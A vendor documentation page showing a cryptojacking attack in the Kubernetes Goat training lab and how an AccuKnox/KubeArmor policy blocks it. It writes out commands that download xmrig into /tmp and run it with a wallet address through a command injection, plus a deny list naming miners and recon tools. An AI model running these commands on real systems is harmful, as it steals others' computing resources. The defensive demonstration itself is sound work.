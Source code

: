 ```yaml
---
title: Cryptojacking
description: Protect against cryptominers with AccuKnox by blocking mining executables and thwarting common cryptojacking techniques.
---
```


# Cryptojacking

Cryptojacking, the unauthorized use of someone else’s computing resources for cryptocurrency mining, is a silent but rapidly growing menace. Cryptocurrency mining steals the resources of infected machines, significantly affecting their performance and increasing the wear and tear of hardware. The mining also leads to other costs, like increased power consumption or resource consumption on the cloud.

To showcase a cryptojacking attack, the Kubernetes Goat environment is used(<a href="https://github.com/madhuakula/kubernetes-goat?tab=readme-ov-file#-setting-up-kubernetes-goat", target=_blank>Kubernetes Goat Setup</a>). The Health Check deployment in Kubernetes Goat has a command injection vulnerability which allows executing commands inside the container by prefixing ```;```

## Exploiting vulnerability to deploy xmrig

To exploit the command injection vulnerability and get started with mining, start by checking the OS that the container is running on:

```sh
$ uname -a
```
For the health check deployment, the OS is ubuntu.

**Step 1**: Download the binary release of xmrig for linux-static from the <a href="https://github.com/xmrig/xmrig/releases", target="_blank">open source github page</a>. The attacker will use a version of the binary with the config file already populated with the required info.

```sh
$ wget https://github.com/xmrig/xmrig/releases/download/v6.21.2/xmrig-6.21.2-linux-static-x64.tar.gz -P /tmp
```
After executing the above, the binary is downloaded into the container which can be confirmed by using ```ls```

![crypto-mining-accuknox](images/crypto-mining/goat-ls.png)

**Step 2**: Install the xmrig binary into the ```/tmp``` folder

```sh
$ tar xvzf /tmp/xmrig-6.21.2-linux-static-x64.tar.gz -C /tmp
```
On successful install, an output similar to below will be visible

![crypto-mining-accuknox](images/crypto-mining/xmrig-installed.png)

**Step 3**: Try running xmrig with the below command

```sh
$ /tmp/xmrig-6.21.2/xmrig 48edfHu7V9Z84YzzMa6fUueoELZ9ZRXq9VetWzYGzKt52XU5xvqgzYnDK9URnRoJMk1j8nLwEVsaSWJ4fhdUyZijBGUicoD
```
Now xmrig starts to mine and here, the load becomes too high that the container gets restarted
```sh
vagrant@demo:~/kubernetes-goat$ kubectl get pods -l app=health-check -w
NAME                                       READY   STATUS    RESTARTS        AGE
health-check-deployment-5777c5c54b-xfsjr   1/1     Running   2 (7m49s ago)   19h
health-check-deployment-5777c5c54b-xfsjr   0/1     OOMKilled   2 (10m ago)     19h
health-check-deployment-5777c5c54b-xfsjr   1/1     Running     3 (7s ago)      19h
```

## Protection Using AccuKnox

AccuKnox can help protect against cryptominers by blocking specific executables used for mining and thwarting the other generally used techniques for deploying cryptominers.

The following KubeArmor policy can be used for securing the health check deployment from any cryptominers including xmrig:

```sh
apiVersion: security.kubearmor.com/v1
kind: KubeArmorPolicy
metadata:
  name: prevent-crypto-miners
spec:
  selector:
    matchLabels:
      app: health-check

  action: Block
  process:
    # do not allow execution of binaries from /tmp/ directory
    matchDirectories:
    - dir: /tmp/
      recursive: true

    matchPaths:
    # do not allow execution of xmrig (xmrig.com)
    - execname: xmrig

    # prevent execution of Dero miner
    - execname: dero
    - execname: dero-miner-linux-amd64
    - execname: dero-wallet-cli-linux-amd64
    - execname: derod-linux-amd64

    # do not allow execution of masscan/zgrab2/nmap used for recon
    - execname: zgrab2
    - execname: masscan
    - execname: nmap

    # do not allow package management tools execution
    - execname: apt
    - execname: apk

    # time sync is important for miners. typically ntpdate is used.
    - execname: ntpdate

  # Do not allow overwriting system binaries
  file:
    matchDirectories:
    - dir: /usr/local/bin/
      readOnly: true
      recursive: true
    - dir: /sbin/
      readOnly: true
      recursive: true
    - dir: /bin/
      readOnly: true
      recursive: true
    - dir: /usr/bin/
      readOnly: true
      recursive: true
    - dir: /var/local/bin/
      readOnly: true
      recursive: true
    - dir: /boot/
      readOnly: true
      recursive: true

  message: cryptominer detected and blocked
  severity: 10
  tags:
    - cryptominer
```

The above policy,

- Prevents execution of binaries from the ```/tmp/``` directory

- Prevents execution of any processes with an execname of ```xmrig```, ```dero```, ```dero-miner-linux-amd64```, ```dero-wallet-cli-linux-amd64```, ```derod-linux-amd64```, ```zgrab2```, ```masscan```, ```nmap```, ```apt```, ```apk``` and ```ntpdate``` in the system

- Prevents write to ```/usr/local/bin/```, ```/sbin/```, ```/bin/```, ```/usr/bin/```, ```/var/local/bin/```, ```/boot/``` which contain system binaries

To apply the policy in SaaS,

**Step 1**: To create the policy Navigate to Runtime Protection → Policies. Then select **Create Policy** option from the screen.

![crypto-mining-accuknox](images/crypto-mining/create-policy.png)

**Step 2**: In the policy editor tool create/upload the above policy. Select the Cluster, namespace, **Save** and then select **Save to workspace** option.

![crypto-mining-accuknox](images/crypto-mining/save-policy.png)

**Step 3**: Apply the policy by clicking on the three dots next to the saved policy and selecting **Apply Policy**.

![crypto-mining-accuknox](images/crypto-mining/apply-policy.png)

**Step 4**: The policy is applied successfully. Now, try to execute xmrig again

```sh
$ /tmp/xmrig-6.21.2/xmrig 48edfHu7V9Z84YzzMa6fUueoELZ9ZRXq9VetWzYGzKt52XU5xvqgzYnDK9URnRoJMk1j8nLwEVsaSWJ4fhdUyZijBGUicoD
```
Exit status 126 is shown as xmrig is not allowed to be executed

![crypto-mining-accuknox](images/crypto-mining/xmrig-exit.png)

Alerts are generated for the execution attempt:

```sh
ClusterName: k3scluster
HostName: worker-node02
NamespaceName: default
PodName: health-check-deployment-5777c5c54b-xfsjr
Labels: app=health-check
ContainerName: health-check
ContainerID: cd273bd868238379e9c419e9fbe7b5aeef099d8786502745cf341cf6b2b17116
ContainerImage: docker.io/madhuakula/k8s-goat-health-check:latest@sha256:ab8f3dd527e0a180f42af358d88b22e4bbe8ca81f45f6e404780e665b63da97e
Type: MatchedPolicy
PolicyName: prevent-crypto-miners
Severity: 10
Message: cryptominer detected and blocked
Source: /bin/dash
Resource: /tmp/xmrig-6.21.2/xmrig 48edfHu7V9Z84YzzMa6fUueoELZ9ZRXq9VetWzYGzKt52XU5xvqgzYnDK9URnRoJMk1j8nLwEVsaSWJ4fhdUyZijBGUicoD
Operation: Process
Action: Block
Data: syscall=SYS_EXECVE
Enforcer: AppArmor
Result: Permission denied
ATags: [cryptominer]
Cwd: /
HostPID: 21988
HostPPID: 21986
Owner: map[Name:health-check-deployment Namespace:default Ref:Deployment]
PID: 38
PPID: 36
ParentProcessName: /bin/dash
ProcessName: /tmp/xmrig-6.21.2/xmrig
Tags: cryptominer
UID: 0
```

The permission is denied for xmrig as a binary with that execname is not allowed to be executed. We have also set to prevent execution of binaries from the ```/tmp/``` directory to prevent any other cryptominers to be executed using the same methodology.

## Key Takeaways

- Most of the cryptominers deploy binaries in the ```/tmp/``` folder and execute from there - AccuKnox can prevent any executions from the ```/tmp/``` folder to protect against it.

- Time synchronization is critical for mining software and attackers use pre-installed tools such as ```ntpdate``` for date/time sync - AccuKnox can prevent the attacker’s binary from accessing them.

- Cryptominers use package management tools to install accessory tooling - AccuKnox can essentially disable the use of package managers.

- Common way to prevent any current and future crypto mining attacks would be to use KubeArmor Zero Trust policies which essentially limits any unauthorized access by network primitives, process-exec primitives, file-access primitives by any unknown binaries.